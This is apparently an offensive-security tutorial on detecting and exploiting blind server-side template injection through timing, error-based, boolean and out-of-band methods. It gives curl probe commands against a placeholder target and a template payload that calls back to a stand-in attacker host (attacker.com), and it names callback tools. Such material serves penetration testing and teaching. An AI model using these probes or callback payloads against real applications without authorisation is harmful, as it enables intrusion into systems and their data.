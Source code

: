 ```yaml
---
title: 'Blind SSTI: Detection and Exploitation Techniques'
description: Explore techniques for detecting and exploiting Blind SSTI vulnerabilities
  via timing, error-based, and out-of-band methods.
keywords:
- Blind SSTI
- Server-Side Template Injection
- timing attacks
- error-based SSTI
- out-of-band SSTI
- inference SSTI
- template injection
- cybersecurity
- IT security
---
```


# Blind SSTI

## Context

The objective of this article is to equip offensive operators with the skills necessary to detect and exploit Blind Server-Side Template Injection (SSTI). This type of vulnerability requires utilizing inference-based, timing, and out-of-band techniques to achieve successful exploitation. Prior knowledge in template engines, HTTP requests, web application architecture, and a basic understanding of Server-Side Template Injection is assumed.

## Theory

### Nature of Blind SSTI

Blind Server-Side Template Injection (SSTI) is characterized by the presence of a vulnerability that allows injection into the template engine without direct observation of the injected output in the HTTP response. Attackers must rely on indirect effects, such as timing discrepancies, error messages, or external interactions, to infer whether the injection was successful.

### Inference Channels for Blind SSTI

To exploit a Blind SSTI, attackers inject payloads that create observable side effects. These can include response delays, status code changes, or external callbacks. The vulnerability exists when templates process user-controlled input, but the output is suppressed, sanitized, or otherwise unobservable.

### Timing-Based Blind SSTI

Timing-based Blind SSTI involves using payloads that introduce time delays within the template rendering process. By measuring differences in HTTP response times compared to a baseline, attackers can infer successful injection and execution of their payloads.

### Error-Based Blind SSTI

This approach involves injecting payloads that lead to template processing errors. These errors might manifest as specific HTTP status codes or subtle changes in the application's response. By detecting these errors, attackers can confirm the presence of Blind SSTI.

### Boolean and Conditional Blind SSTI

With Boolean Blind SSTI, attackers inject payloads that affect template logic conditionally. The objective is to produce observable side effects based on whether certain conditions evaluate as true or false, such as differences in timing or application behavior.

### Out-of-Band (OOB) Blind SSTI

Out-of-Band Blind SSTI involves injecting payloads that cause the server to perform outbound requests, often to an attacker-controlled endpoint. This interaction serves as proof of code execution within the template engine, validating the presence of an SSTI vulnerability, even when the injection does not directly alter the application's response.

## Practice

### Timing-Based Blind SSTI Detection

- Establish a baseline for response time by sending a benign request:
  ```bash
  curl -w '%{time_total}\n' -s -o /dev/null 'http://target/app?input={{7*7}}'
  ```

- Inject a payload intended to delay execution and compare the times:
  ```bash
  curl -w '%{time_total}\n' -s -o /dev/null 'http://target/app?input={{sleep(5)}}'
  ```
  By observing a measurable response delay, you can infer that the template injection was successful.

### Error-Based Blind SSTI Detection

- Inject a payload with malformed template syntax to identify processing errors:
  ```bash
  curl -i 'http://target/app?input={{invalid_syntax}}'
  ```
  Look for changes in HTTP status codes or error notifications in the response as indicators of injection.

### Boolean/Conditional Blind SSTI Detection

- Test true evaluations by injecting:
  ```bash
  curl -i 'http://target/app?input={{7*7==49}}'
  ```

- Test false evaluations with:
  ```bash
  curl -i 'http://target/app?input={{7*7==50}}'
  ```
  Analyze response variations to deduce template evaluation results.

### Out-of-Band (OOB) Blind SSTI Exploitation

- Inject a payload that will trigger an external request:
  ```python
  {{urlopen('http://attacker.com/callback')}}
  ```

- Monitor the attacker-controlled domain for incoming requests, confirming code execution within the target's template engine.

## Tools

- **curl**
- **Burp Suite**
- **dnslog.cn**
- **requestbin** 

By following the guidance and techniques outlined in this article, operators can effectively identify and exploit Blind SSTI vulnerabilities within a target application, leveraging indirect effects as verification of successful exploits.